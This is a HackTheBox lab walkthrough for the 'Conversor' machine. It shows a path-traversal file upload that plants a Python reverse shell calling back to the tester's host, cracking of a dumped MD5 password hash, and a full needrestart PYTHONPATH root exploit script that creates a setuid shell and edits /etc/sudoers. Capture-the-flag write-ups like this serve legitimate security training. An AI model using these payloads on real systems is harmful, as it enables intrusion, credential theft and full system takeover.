


# Conversor - HackTheBox Walkthrough

**Difficulty:** Easy  
**OS:** Linux

## Recon

Scanning the box for open ports, we can only see two ports open `ssh` and `http` on port 80.

```
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/conversor]
└─$ nmap -A 10.129.40.190

Nmap scan report for 10.129.40.190
Host is up (0.17s latency).
Not shown: 65172 closed tcp ports (reset), 361 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 01:74:26:39:47:bc:6a:e2:cb:12:8b:71:84:9c:f8:5a (ECDSA)
|_  256 3a:16:90:dc:74:d8:e3:c4:51:36:e2:08:06:26:17:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://conversor.htb/
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: Host: conversor.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After creating an account and logging in. application accepts two files as inputs, **XML** and **XSLT**. well XSLT is an XML-based language used, in conjunction with specialized processing software, for the transformation of XML documents



looking at the **About** page, we can download the application source code, that would help us understand what is running in the backend.



## Foothold

lets take a look at the `/convert` route within `app.py` to see what happens when we upload **XSLT** and **XLM**.

```
...
@app.route('/convert', methods=['POST'])
def convert():
    if 'user_id' not in session:
        return redirect(url_for('login'))
    xml_file = request.files['xml_file']
    xslt_file = request.files['xslt_file']
    from lxml import etree
    xml_path = os.path.join(UPLOAD_FOLDER, xml_file.filename)
    xslt_path = os.path.join(UPLOAD_FOLDER, xslt_file.filename)
    xml_file.save(xml_path)
    xslt_file.save(xslt_path)
    ...
```

here, the app is taking the files in POST request and saves the files before even checking it with the filename from the actual POST req without any sanitization. if we change our filename in the POST req with burp for example, to something like `../../file.xml` we can save whatever file to wherever we have access to on target machine.

in the `install.md` we get a hint that a cronjob is executing every python script in the `scripts` directory. so we will use the path traversal to write our own python reverse shell in the `scripts` directory and the cron will execute it.

```
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
```

in burp change one of the files to your python reverse shell

```
POST /convert HTTP/1.1
Host: conversor.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------417680144127831653951980270229
Content-Length: 3843
Origin: http://conversor.htb
Connection: keep-alive
Referer: http://conversor.htb/
Cookie: session=eyJ1c2VyX2lkIjo1LCJ1c2VybmFtZSI6ImpvaG4ifQ.aQO_lQ.EzHC-Q4opztUsu2O-fHl-mk0WBw
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------417680144127831653951980270229
Content-Disposition: form-data; name="xml_file"; filename="../scripts/myshell.py"
Content-Type: text

import socket, subprocess, os
import pty

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.15.52", 443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
pty.spawn("sh")
...
```

you will get an error like this one but files are saved before throwing the error.

```
Error: Start tag expected, '<' not found, line 1, column 1 (myshell.py, line 1)
```

waiting for a minute and we will get our shell.

```
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/conversor]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.15.52] from (UNKNOWN) [10.129.40.190] 54990
$ whoami
www-data

```

## user.txt

we can dump the users.db using the `sqlite3` and get `fismathack` password hash.

```
www-data@conversor:~/conversor.htb$ cd instance/
www-data@conversor:~/conversor.htb/instance$ ls -la
total 32
drwxr-x--- 2 www-data www-data  4096 Oct 30 20:28 .
drwxr-x--- 8 www-data www-data  4096 Aug 14 21:34 ..
-rwxr-x--- 1 www-data www-data 24576 Oct 30 20:28 users.db
www-data@conversor:~/conversor.htb/instance$ sqlite3 users.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
files  users
sqlite> .schema users
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    );
sqlite> select username,password from users;
fismathack|5b5c3ac3a1c897c94caad48e6c71fdec

```

we can crack it using `hashcat`

```
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/conversor]
└─$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --show
5b5c3ac3a1c897c94caad48e6c71fdec:Keepmesafeandwarm

```

we can **ssh** into the machine using the credentials and get `user.txt`

```
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/conversor]
└─$ ssh fismathack@conversor.htb
fismathack@conversor.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-160-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Oct 30 09:12:17 PM UTC 2025

  System load:  0.08              Processes:             219
  Usage of /:   64.6% of 5.78GB   Users logged in:       0
  Memory usage: 7%                IPv4 address for eth0: 10.129.40.190
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Thu Oct 30 21:12:21 2025 from 10.10.15.52
fismathack@conversor:~$ ls -la
total 36
drwxr-x--- 5 fismathack fismathack 4096 Oct 21 05:45 .
drwxr-xr-x 3 root       root       4096 Jul 31 01:37 ..
lrwxrwxrwx 1 root       root          9 Oct 21 05:45 .bash_history -> /dev/null
-rw-r--r-- 1 fismathack fismathack  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 fismathack fismathack 3771 Jan  6  2022 .bashrc
drwx------ 2 fismathack fismathack 4096 Oct 30 21:12 .cache
drwxrwxr-x 2 fismathack fismathack 4096 Aug 15 05:06 .local
-rw-r--r-- 1 fismathack fismathack  807 Jan  6  2022 .profile
lrwxrwxrwx 1 root       root          9 Aug 15 04:40 .python_history -> /dev/null
lrwxrwxrwx 1 root       root          9 Jul 31 22:04 .sqlite_history -> /dev/null
drwx------ 2 fismathack fismathack 4096 Aug 15 05:06 .ssh
-rw-r----- 1 root       fismathack   33 Oct 30 19:22 user.txt

```

## root.txt

this user can run `needrestart` with sudo privilege

```
fismathack@conversor:~$ sudo -l
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart


fismathack@conversor:~$ sudo /usr/sbin/needrestart --version

needrestart 3.7 - Restart daemons after library updates.

```

needrestart, before version 3.8, allows local attackers to execute arbitrary code as root by tricking needrestart into running the Python interpreter with an attacker-controlled PYTHONPATH environment variable.

you can use this exploit  
it will hang when you run it on target. using another shell, run **needstart** with sudo. than you will get root shell!

```
#!/bin/bash
set -e
cd /tmp
mkdir -p malicious/importlib

# Create and compile the malicious library
cat << 'EOF' > /tmp/malicious/lib.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static void a() __attribute__((constructor));

void a() {
    if(geteuid() == 0) {  // Only execute if we're running with root privileges
        setuid(0);
        setgid(0);
        const char *shell = "cp /bin/sh /tmp/poc; "
                            "chmod u+s /tmp/poc; "
                            "grep -qxF 'ALL ALL=NOPASSWD: /tmp/poc' /etc/sudoers || "
                            "echo 'ALL ALL=NOPASSWD: /tmp/poc' | tee -a /etc/sudoers > /dev/null &";
        system(shell);
    }
}
EOF

gcc -shared -fPIC -o "/tmp/malicious/importlib/__init__.so" /tmp/malicious/lib.c

# Minimal Python script to trigger import
cat << 'EOF' > /tmp/malicious/e.py
import time
while True:
    try:
        import importlib
    except:
        pass
    if __import__("os").path.exists("/tmp/poc"):
        print("Got shell!, delete traces in /tmp/poc, /tmp/malicious")
        __import__("os").system("sudo /tmp/poc -p")
        break
    time.sleep(1)
EOF

cd /tmp/malicious; clear;echo -e "\n\nWaiting for norestart execution...\nEnsure you remove yourself from sudoers on the poc file after\nsudo sed -i '/ALL ALL=NOPASSWD: \/tmp\/poc/d' /etc/sudoers\nAs well as remove excess files created:\nrm -rf malicious/ poc"; PYTHONPATH="$PWD" python3 e.py 2>/dev/null
```

```
fismathack@conversor:~$ ./exploit.sh
Got shell!, delete traces in /tmp/poc, /tmp/malicious
id
uid=0(root) gid=0(root) groups=0(root)
ls -la /root
total 44
drwx------  6 root root 4096 Oct 30 19:22 .
drwxr-xr-x 19 root root 4096 Oct 21 05:45 ..
lrwxrwxrwx  1 root root    9 Oct 21 05:45 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwxr-xr-x  2 root root 4096 Aug 15 05:06 .cache
drwxr-xr-x  3 root root 4096 Sep 23 14:00 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
lrwxrwxrwx  1 root root    9 Aug 15 04:40 .python_history -> /dev/null
-rw-r-----  1 root root   33 Oct 30 19:22 root.txt
drwxr-xr-x  2 root root 4096 Oct 16 10:25 scripts
-rw-r--r--  1 root root   66 Jul 31 05:36 .selected_editor
lrwxrwxrwx  1 root root    9 Jul 31 22:04 .sqlite_history -> /dev/null
drwx------  2 root root 4096 Aug 15 05:06 .ssh
-rw-r--r--  1 root root  165 Oct 21 05:45 .wget-hsts

```
